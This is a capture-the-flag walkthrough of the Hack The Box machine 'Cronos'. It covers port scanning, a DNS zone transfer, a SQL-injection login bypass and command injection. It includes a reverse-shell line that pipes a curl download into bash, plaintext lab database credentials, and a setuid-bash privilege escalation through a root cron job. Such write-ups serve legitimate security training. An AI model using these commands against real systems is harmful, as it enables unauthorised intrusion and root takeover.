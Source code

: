 # Cronos

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.227.211
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 14:42 EDT
Nmap scan report for 10.129.227.211
Host is up (0.0083s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
```

### DNS

I poked DNS a little bit before going to HTTP, to see if we can find out any hidden domains or something. Based on standard HTB domains, I guessed that it was `cronos.htb` and it worked.

```
$ dig axfr @10.129.227.211 cronos.htb

; <<>> DiG 9.18.8-1-Debian <<>> axfr @10.129.227.211 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 3 msec
;; SERVER: 10.129.227.211#53(10.129.227.211) (TCP)
;; WHEN: Sat May 06 14:44:15 EDT 2023
;; XFR size: 7 records (messages 1, bytes 203)
```

### Cronos.htb

Port 80 reveals the default Apache2 page:

<figure><img src="../../../.gitbook/assets/image (698).png" alt=""><figcaption></figcaption></figure>

After adding `cronos.htb` to the `/etc/hosts` file, this page changes:

<figure><img src="../../../.gitbook/assets/image (644).png" alt=""><figcaption></figcaption></figure>

Checking the page source reveals this is a Laravel application.

<figure><img src="../../../.gitbook/assets/image (550).png" alt=""><figcaption></figcaption></figure>

### SQLI Login Bypass --> RCE

Earlier, we also found an `admin.cronos.htb` through DNS. When visited, it just shows a login page:

<figure><img src="../../../.gitbook/assets/image (889).png" alt=""><figcaption></figcaption></figure>

This looks vulnerable to some kind of injection. I ran `sqlmap` on the login request and found that it might be vulnerable to time-based SQL injection. That also means we can bypass this login page by doing basic injection. When we login, we see that it is a really basic application:

<figure><img src="../../../.gitbook/assets/image (3089).png" alt=""><figcaption></figcaption></figure>

This is obviously vulnerable to command injection, which we can find quite easily:

<figure><img src="../../../.gitbook/assets/image (1961).png" alt=""><figcaption></figcaption></figure>

We can then get a reverse shell using `curl 10.10.14.13/shell.sh|bash`.&#x20;

<figure><img src="../../../.gitbook/assets/image (331).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### MySQL Creds

We can find a `config.php` file containing some credentials in the directory that we spawn in.

```php
www-data@cronos:/var/www/admin$ ls
config.php  index.php  logout.php  session.php  welcome.php
www-data@cronos:/var/www/admin$ cat config.php 
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```

We can keep this for now since we don't know if it'll come into play later. There's one user present in this machine:

```
www-data@cronos:/home$ ls -la
total 12
drwxr-xr-x  3 root   root   4096 May 10  2022 .
drwxr-xr-x 23 root   root   4096 May 10  2022 ..
drwxr-xr-x  4 noulis noulis 4096 May 10  2022 noulis
```

We can easily grab the user flag from this.&#x20;

### Laravel Cronjob

Running LinPEAS reveals this:

<figure><img src="../../../.gitbook/assets/image (663).png" alt=""><figcaption></figcaption></figure>

The `root` user was running a PHP file called `artisan` that we had write access to. So we just need to append some commands to the top. We can edit it to include this line:

```php
exec("chmod u+s /bin/bash");
```

Wait for a little bit, and the script should execute. We can then easily get a `root` shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>
